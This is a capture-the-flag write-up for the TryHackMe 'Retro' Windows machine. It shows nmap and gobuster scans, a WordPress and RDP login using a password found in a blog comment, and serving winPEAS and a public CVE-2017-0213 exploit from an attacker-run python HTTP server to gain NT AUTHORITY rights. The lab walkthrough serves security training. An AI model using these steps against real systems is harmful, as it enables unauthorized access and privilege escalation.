 # Retro - THM
###  Difficulty level: Hard
------------------------------------------------------

Let's start with nmap scan:

```bash
nmap -sV -sC -Pn 10.10.254.2 -oN nmap_scan	
```
Results:
```bash
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-04-02T09:49:52
|_Not valid after:  2023-10-02T09:49:52
|_ssl-date: 2023-04-03T09:53:51+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-04-03T09:53:47+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
From this scan I can cocnlude this machine running on a Windows OS,
Also, ports 80 (http) and 3389 (rdp) are open, I'll start investigate the web page.

There is nothing on the first page:

![image](https://user-images.githubusercontent.com/114166939/229806780-8a9ddf5e-fe89-4eb4-863e-d5840f5420a0.png)


I'll try to find hidden directories on this web with gobuster:
```bash
gobuster dir -u http://10.10.254.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > dirs
```

Results:
```
/retro
```
First thing to see, this site built with WordPress, it can be noticed with wappalyzer extension.

![image](https://user-images.githubusercontent.com/114166939/229808095-c74ae384-0c2c-43d5-baa5-8b59b6492935.png)

Also, I'll run another brute-force directory to see if there are another hidden directories under the "/retro" directory:
```bash
gobuster dir -u http://10.10.254.2/retro/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > RetroDirs
```

Results:
```
/wp-includes
/wp-admin	
/wp-content
```
Also, after some crawling on the "/retro" directory, I found a comment at "http://10.10.254.2/retro/index.php/2019/12/09/ready-player-one/":

![image](https://user-images.githubusercontent.com/114166939/229811797-f0870872-40aa-4ff0-a587-e733349a2634.png)

Probably the word "parzival" means something.

Because this is a WordPress web, I can tell there is a wp-login directory here,
It's on the "http://10.10.254.2/retro/wp-login.php".

As a username I'll use "wade", the user who wrote the comment, and as a password I'll use "parzival".

Success login!

![image](https://user-images.githubusercontent.com/114166939/229812841-a178a7ae-d8fc-4fd3-b5d4-fdc33fa01a2c.png)

I'll guess this credentials will work with the RDP service too because of it's name - "RetroWeb".

I'm going to use "remmina" service to connect:

![image](https://user-images.githubusercontent.com/114166939/229813708-4c98ac5d-b856-4f54-8c11-7ba124d2c775.png)

Connected!

On the desktop there is a file called "user.txt", It can be easily opened and I have the first flag!

![image](https://user-images.githubusercontent.com/114166939/229814249-5c437137-4cdf-4056-8aa6-8e5321dc3743.png)

Next, I'll open a cmd for gathering more information about this machine:
```cmd
systeminfo
```
Results:

![image](https://user-images.githubusercontent.com/114166939/229815473-c090618e-7110-4040-b16a-26dd2166361f.png)

This is x64 processor architecture, windows servers 2016, standalone computer.

```cmd
net users && net localgroup
```

![image](https://user-images.githubusercontent.com/114166939/229816484-d7fcea0c-7de4-4a59-8b80-600fc8559e53.png)

```cmd
net localgroup Administrators
```

![image](https://user-images.githubusercontent.com/114166939/229817126-ffcf7ce4-1ce4-4685-a2c3-e53344edbea4.png)

Wade is a weak user I'll try privilege escalation.

For that I'll need winPEASx64.exe from "https://github.com/carlospolop/PEASS-ng/releases/tag/20230402".

Next, I'll run a python3 server to download it on my victim machine:
```python3
python3 -m http.server
```

I'll open "Google chrome" and run "http://10.14.50.11:8000/winPEASx64.exe", download the file
and run it.

One of the many vulnerabilities it found is "CVE-2017-0213"!
This CVE exploit the kernel and grant NT-AUTHORITY permissions.

I found a github page with this exploit "https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213",
Download to my machine the "CVE-2017-0213_x64.zip", unzip it, and now I'll upload it to the victim machine as I did before, with python3 server.

I'll run the file from the cmd:
```cmd
CVE-2017-0213_x64.exe
```

![image](https://user-images.githubusercontent.com/114166939/229829593-df5bbce4-09b4-40c5-bec5-a7e50282217b.png)


Got NT-AUTHORITY user!

Now all left to do is to open the Administrator directory and print the "root.txt" flag!

```cmd
type C:\Users\Administrator\Desktop\root.txt.txt
```

![image](https://user-images.githubusercontent.com/114166939/229826500-f97a8b4f-e697-44d8-b1da-ba574e0b50e8.png)

